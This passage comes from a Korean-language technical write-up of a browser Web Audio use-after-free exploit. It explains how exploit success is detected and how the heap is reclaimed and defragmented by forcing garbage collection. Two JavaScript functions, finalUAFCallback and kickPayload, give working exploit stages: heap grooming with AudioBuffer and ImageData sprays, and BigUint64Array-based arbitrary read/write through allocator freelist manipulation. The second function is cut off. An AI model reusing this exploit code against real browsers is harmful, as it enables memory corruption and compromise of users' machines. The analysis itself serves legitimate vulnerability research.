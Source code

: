 따라서 결과에 π 이외의 값이 포함되면 exploit이 성공한 것이라 판단합니다. 이 경우에 재귀를 멈추고 finalUAFCallback 함수를 호출하여 오디오 채널 버퍼를 재할당합니다. 그리고 이전에 free된 메모리들을 회수합니다. 또한 다양한 객체를 할당하고 defragmentation를 수행하여 힙을 복구합니다. 이후 BigUint64Array를 이용해 arbitrary read/write 프리미티브를 얻습니다.

```jsx
async function finalUAFCallback() {
	for (let i = 0; i < 256; i++) {
    		floatArray.fill(0);
 
         	iirFilters[i].getFrequencyResponse(floatArray, floatArray, floatArray);
 
    		if (floatArray[0] != 3.1415927410125732) {
        		await collectGargabe();
 
        		audioBufferArray2 = [];
 
        		for (let j = 0; j < 80; j++)
                 		audioBufferArray1.push(sharedAudioCtx.createBuffer(1, 2, 10000));
 
        		iirFilters = new Array(1);
    	     		await collectGargabe();
 
        		for (let j = 0; j < 336; j++)
            			imageDataArray.push(new ImageData(1, 2));
        		imageDataArray = new Array(10);
        		await collectGargabe();
 
        		for (let j = 0; j < audioBufferArray1.length; j++) {
            			let auxArray = new BigUint64Array(audioBufferArray1[j].getChannelData(0).buffer);
            			if (auxArray[0] != BigInt(0)) {
                			kickPayload(auxArray);
                			return;
            			}
             		}
 
        		return;
    		}
	}
}
```

heap defragmentation은 GC를 강제로 호출해서 발생시킵니다.

```jsx
async function kickPayload(auxArray) {
	let audioCtx = new OfflineAudioContext(1, 1, 3000);
	let partitionPagePtr = getPartitionPageMetadataArea(byteSwapBigInt(auxArray[0]));
	auxArray[0] = byteSwapBigInt(partitionPagePtr);
	let i = 0;
	do {
    		gcPreventer.push(new ArrayBuffer(8));
    		if (++i > 0x100000)
        		return;
	} while (auxArray[0] != BigInt(0));
	let freelist = new BigUint64Array(new ArrayBuffer(8));
	gcPreventer.push(freelist);
	...
```
